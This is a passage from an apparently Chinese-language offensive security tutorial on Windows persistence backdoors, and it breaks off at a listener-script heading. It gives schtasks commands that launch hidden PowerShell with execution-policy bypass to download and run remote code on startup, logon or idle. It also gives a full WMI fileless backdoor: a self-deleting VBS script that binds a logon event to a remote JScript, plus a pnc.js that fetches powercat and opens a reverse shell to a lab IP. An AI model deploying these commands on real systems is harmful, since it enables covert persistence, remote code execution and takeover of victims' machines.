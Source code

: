 ### [](#13-%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1%E5%90%8E%E9%97%A8)1.3 计划任务后门

-   schtasks
    -   /Create 创建新任务。
    -   /Delete 删除计划任务。
    -   /Query 显示所有计划任务。
    -   /Change 更改计划任务属性。
    -   /Run 按需运行计划任务。
    -   /End 中止当前正在运行的计划任务。
    -   /ShowSid 显示与计划的任务名称相应的安全标识符。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```powershell<br># schtasks 命令<br># 每天晚上 03:30 定时执行<br>schtasks /create /tn "TimedTask1" /tr C:\Users\Administrator\Desktop\TimedTask\Run.bat /sc DAILY /st 03:30 <br># statement A<br><br># 查询创建的任务<br>schtasks /query /tn TimedTask1 /v<br><br># 立即运行创建的任务<br>schtasks /run /tn TimedTask1<br><br># 删除任务<br>schtasks /delete /tn TimedTask1<br>``` |

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>``` | ```powershell<br>#(X64) - On System Start<br>schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onstart /ru System<br> <br>#(X64) - On User Idle (30mins)<br>schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onidle /i 30<br> <br>#(X86) - On User Login<br>schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onlogon /ru System<br>  <br>#(X86) - On System Start<br>schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onstart /ru System<br>  <br>#(X86) - On User Idle (30mins)<br>schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onidle /i 30<br>``` |

### [](#14-wmi-%E6%97%A0%E6%96%87%E4%BB%B6%E5%90%8E%E9%97%A8)1.4 wmi 无文件后门

evil3.vbs -> 恶意 VBS 脚本。创建事件过滤器，捕获账户成功登陆的事件；创建活动脚本事件消费者，捕获到事件后执行远程脚本 pnc.js;绑定过滤器和消费者。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>``` | ```fallback<br>nslink="winmgmts:\\.\root\subscription:"<br><br>qstr="select * from __InstanceCreationEvent within 5 "        '每5秒查询一次“实例创建事件”'<br>qstr=qstr&"where targetinstance isa 'win32_NTLogEvent' and "<br>qstr=qstr&"targetinstance.EventCode='4624' "                  '实例名是win32_NTLogEvent'<br><br><br>set evtflt=getobject(nslink&"__EventFilter").spawninstance_   '创建事件过滤器'<br>evtflt.name="filtP1"                                          '定义过滤器的名字'<br>evtflt.EventNameSpace="root\cimv2"<br>evtflt.query=qstr                                             '定义查询语句'<br>evtflt.querylanguage="wql"                                    '定义查询语言(只能是wql)'<br>set fltpath=evtflt.put_                                       '注册过滤器，返回其链接'<br><br>set asec=getobject(nslink&"ActiveScriptEventConsumer").spawninstance_   '创建“活动脚本事件消费者”'<br>asec.name="consP1"                                                      '定义消费者的名字'<br>asec.scriptingengine="JScript"                                          '定义脚本语言<br>asec.ScriptText="GetObject(""script:http://192.168.41.1:8080/pnc.js"")"<br>set asecpath=asec.put_                                                  '注册消费者，返回其链接'<br><br>set fcbnd=getobject(nslink&"__FilterToConsumerBinding").spawninstance_  '创建过滤器和消费者的绑定'<br>fcbnd.filter=fltpath.path                                               '指定过滤器'<br>fcbnd.consumer=asecpath.path                                            '指定消费者'<br>fcbnd.put_                                                              '执行绑定'<br><br>dim fso<br>set fso = CreateObject("Scripting.FileSystemObject")<br>evilname=left(wscript.scriptfullname,instrrev(wscript.scriptfullname,"\")) <br>evilname=evilname& fso.GetFile(Wscript.scriptfullname).name<br>fso.DeleteFile(evilname) 'vbs删除自己<br>``` |

pnc.js -> 服务端恶意脚本。下载 powercat.ps1，并使用其返回 shell。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```javascript<br><?xml version="1.0"?><br><br><package><br><component id="testCalc"><br><br><script language="JScript"><br><br>var r = new ActiveXObject("WScript.Shell").Run("powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.41.1:8080/powercat-master/powercat.ps1');powercat -c 192.168.41.1 -p 6999 -e cmd"); <br><br></script><br><br></component><br></package><br>``` |

shell\_server.py -> 服务端监听 shell 的脚本。

|     |     |     |
| --- | --- | --- |